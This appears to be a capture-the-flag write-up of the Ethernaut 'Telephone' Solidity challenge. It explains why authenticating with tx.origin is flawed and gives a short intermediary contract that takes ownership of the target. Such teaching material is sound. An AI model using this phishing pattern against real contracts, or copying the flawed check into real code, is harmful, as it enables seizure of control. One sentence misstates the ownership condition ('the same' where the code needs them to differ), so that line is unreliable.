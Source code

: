 # Challenge 4 - Telephone

## Understanding the code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

```

This is a simple contract but let's understand what the function is doing here.

The function changeOwner which takes in _owner of type address as a parameter basically declares that if the original transaction sender and the sender of the "msg" or the ETH is the same then the _owner address now becomes the new owner.

- ```tx.origin``` is a global variable that refers to the original externally owned account of the transaction and it is of type address. Read the docs about tx.origin [here](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html?highlight=tx.origin)
- ```msg.sender``` is the address of the user that invokes the function. Read the docs about msg.sender [here](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html?highlight=msg.sender)

### What is an Externally Owned Account(EOA)?

EOA is a the user's wallet address. Example: your Metamask account's address is an EOA.
EOAs satisfy the following conditions:
- Only type of account that can initiate a transaction and
- Only type of account that owns a private key

This challenge requires us to make a Phishing Attack on this contract and teach us why one shouldn't use tx.origin to authenticate an account to execute a function.

The following is the code that I used on Remix IDE and injected onto the Telephone.sol contract in order to conduct a Phishing Attack.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Telephone.sol';

contract TelephonePhishing {

    Telephone telephoneContract;

    constructor(address _addr) public{
        telephoneContract = Telephone(_addr);
    }

    function phish(address _addr) public{
        telephoneContract.changeOwner(_addr);
    }
}
```

So when my smart contract is calling that function, the account signing on that transaction is my account but the account calling that function is of the smart contract, since they are not matching, the owner changes to moi. 

That's it!

> _If you have any suggestions or changes/better explanations, go ahead make a PR._
